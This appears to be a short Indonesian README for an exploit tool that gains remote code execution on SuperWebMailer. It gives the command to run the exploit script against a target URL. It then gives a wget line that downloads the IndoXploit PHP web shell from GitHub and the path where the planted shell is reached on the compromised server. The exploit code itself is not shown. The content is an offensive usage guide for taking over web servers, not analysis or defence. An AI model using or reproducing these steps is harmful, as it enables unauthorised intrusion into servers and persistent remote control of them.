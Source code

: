 # RCE_SuperWebMailer
Tools ini menggunakan Python3 untuk menjalankan jika belum menggunakan python versi 3 harap di install terlebih dahulu

# Cara Menggunakan
pip install requests <br>
python3 expploit.py -u http://target.com/swm/

# Upload Shell<br>
<code>
  wget https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/shell-v3.php
</code>

akses shell : http://target.com/swm/shell-v3.php

